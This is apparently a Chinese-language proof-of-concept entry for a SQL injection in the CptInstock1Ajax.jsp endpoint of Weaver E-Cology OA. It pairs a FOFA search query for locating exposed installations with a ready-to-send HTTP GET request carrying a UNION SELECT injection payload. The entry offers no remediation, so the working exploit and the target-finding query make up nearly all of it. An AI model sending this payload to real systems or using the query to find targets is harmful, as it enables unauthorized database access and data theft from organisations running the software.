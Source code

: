 # 泛微E-Cology系统接口CptInstock1Ajax存在SQL注入漏洞

泛微E-Cology系统接口CptInstock1Ajax存在SQL注入漏洞，可获取数据库权限，导致数据泄露。

## fofa

```javascript
app="泛微-OA（e-cology）"
```

## poc

```javascript
GET /cpt/capital/CptInstock1Ajax.jsp?id=-99+UNION+ALL+SELECT+@@VERSION,1# HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20241012130802172](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410121308238.png)